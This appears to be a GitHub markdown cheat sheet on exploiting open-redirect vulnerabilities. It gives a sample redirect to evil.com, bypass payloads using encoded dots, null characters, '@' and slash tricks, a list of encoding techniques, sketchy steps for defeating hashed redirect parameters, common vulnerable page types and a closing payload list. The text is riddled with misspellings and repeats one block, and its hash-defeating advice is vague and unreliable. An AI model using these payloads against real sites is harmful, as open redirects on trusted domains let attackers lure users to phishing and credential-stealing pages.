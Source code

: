 ### Open-Redriction


Target Url: http://www.hackerscreed.com/redrict.php?url=http://evil.com



__Normal Redirects__
```
http://victim.com/http://google.com
http://victim.com/folder/www.google.com
```

-Encode "." many Layers
```
Eg: //google%E3%80%82com 
```
__Using Null Char__
```
//google%00.com
```
__Using @__
```
http://www.theirsite.com@yoursite.com/		
```

__Normal Redirects__
```
http://victim.com/http://google.com
http://victim.com/folder/www.google.com
```


### Encoding Techniques

- Url Encoded
- Double Url Encoded
- Hex Encoded
- Mixed Encoded
- base64 encoded







__Breaking the Has Mechanism__

letus Assume The website is adding the hases with the url for the redriction eg:

http://www.hackerscreed.com/redrict.php?url=http://website.com&hash=1a3s4d8a4s6d21sad84sa6
and if the hasd and the url mismatches the request is rejected ! Fallow The steps to Defeat this 
mechanism.


- nmap Server
- figure out the platform used (php,asp)
- Ask google for "built in hasing algorithms in php v5"
- Ask google for "built in hasing libraries in php"
- Now compare the results and check which hasing algorithm is used !



__Defeating The Salted Hashes__

```
This time We have to find the salt which is added at the beginning or at the end of the hash
its a little bit difficut task.
```

__Common Places to find Open Redriction__

- login
- register
- logout
- change site language
- links in emails



#### Payload List
```

//www.google.com
//google.com
../google.com
https:google.com/
\/\/google.com/
```
